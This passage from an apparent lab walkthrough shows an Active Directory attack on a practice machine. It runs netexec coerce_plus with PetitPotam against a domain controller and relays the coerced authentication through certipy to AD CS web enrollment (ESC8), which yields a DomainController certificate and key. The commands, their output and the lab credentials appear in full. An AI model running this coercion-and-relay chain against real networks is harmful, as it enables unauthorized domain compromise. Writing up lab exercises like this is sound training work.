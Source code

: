 The `netexec` module `coerce_plus` will check several different methods for coercing authentication from the machine account:

```

oxdf@hacky$ netexec smb DC-JPQ225.cicada.vl  -u Rosie.Powell -p Cicada123 -k -M coerce_plus 
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*]  x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\Rosie.Powell:Cicada123 
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        VULNERABLE, DFSCoerce
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        VULNERABLE, PetitPotam
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        VULNERABLE, PrinterBug
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        VULNERABLE, PrinterBug

```

In theory any of these should work. I have the best luck with PetitPotam. To trigger it, I’ll give `netexec` the `LISTENER` of the malicious DNS record, and the `METHOD`:

```

oxdf@hacky$ netexec smb DC-JPQ225.cicada.vl  -u Rosie.Powell -p Cicada123 -k -M coerce_plus -o LISTENER=DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA METHOD=PetitPotam
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*]  x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\Rosie.Powell:Cicada123 
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        VULNERABLE, PetitPotam
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        Exploit Success, lsarpc\EfsRpcAddUsersToFile

```

At the relay, there’s a connection, and it eventually creates a `.pfx` file:

```

oxdf@hacky$ certipy relay -target 'http://dc-jpq225.cicada.vl/' -template DomainController
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[*] Targeting http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server on port 445
[*] SMBD-Thread-2 (process_request_thread): Received connection from 10.129.234.48, attacking target http://dc-jpq225.cicada.vl
[-] Unsupported MechType 'MS KRB5 - Microsoft Kerberos 5'
[*] HTTP Request: GET http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] Authenticating against http://dc-jpq225.cicada.vl as / SUCCEED
[*] Requesting certificate for '\\' based on the template 'DomainController'
[*] HTTP Request: POST http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] Certificate issued with request ID 95
[*] Retrieving certificate for request ID: 95
[*] HTTP Request: GET http://dc-jpq225.cicada.vl/certsrv/certnew.cer?ReqID=95 "HTTP/1.1 200 OK"
[*] Got certificate with DNS Host Name 'DC-JPQ225.cicada.vl'
[*] Certificate object SID is 'S-1-5-21-687703393-1447795882-66098247-1000'
[*] Saving certificate and private key to 'dc-jpq225.pfx'
[*] Wrote certificate and private key to 'dc-jpq225.pfx'
[*] Exiting...

```
